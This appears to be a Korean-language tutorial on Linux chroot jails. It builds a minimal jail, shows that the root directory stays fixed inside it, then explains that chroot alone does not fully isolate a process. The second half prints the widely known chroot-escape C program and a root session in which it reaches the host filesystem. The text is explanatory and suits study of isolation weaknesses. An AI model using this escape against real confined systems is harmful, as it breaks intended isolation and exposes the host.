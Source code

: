```bash
# mkdir -p ./jail/lib
# mkdir -p ./jail/lib64
# cp /lib/x86_64-linux-gnu/libtinfo.so.6 ./jail/lib/
# cp /lib/x86_64-linux-gnu/libc.so.6 ./jail/lib/
# cp /lib64/ld-linux-x86-64.so.2 ./jail/lib64/

# chroot jail /bin/bash
bash-5.2# pwd
/
bash-5.2# cd ..
bash-5.2# pwd
/
bash-5.2# echo "A" > a.txt
bash-5.2# exit
# cd /home/jail
# ls
a.txt  bin  lib  lib64
# cat a.txt
A
# /home/jail을 기준으로 root 디렉토리가 고정된 것을 확인할 수 있다.

```

### chroot만으로 구현된 격리는 완벽하지 않다!

- 아래 코드는 널리 알려진 chroot 탈옥 코드

```bash
#include <sys/stat.h>
#include <unistd.h>

int main(void)
{
    mkdir(".out", 0755);
    chroot(".out");
    chdir("../../../../../../");
    chroot(".");

    return execl("/bin/sh", "-i", NULL);
}
```

- 실제 탈옥 과정

```bash
root@ip-10-6-0-163:/home# chroot jail /bin/bash
bash-5.2# ./escape
# ls
bin   lib               opt   snap
bin.usr-is-merged  lib.usr-is-merged  proc  srv
boot  lib64             root  sys
dev   lost+found        run   tmp
etc   media             sbin  usr
home  mnt               sbin.usr-is-merged  var

#원래는 접근 불가능한 host의 root에 접근한 모습
```
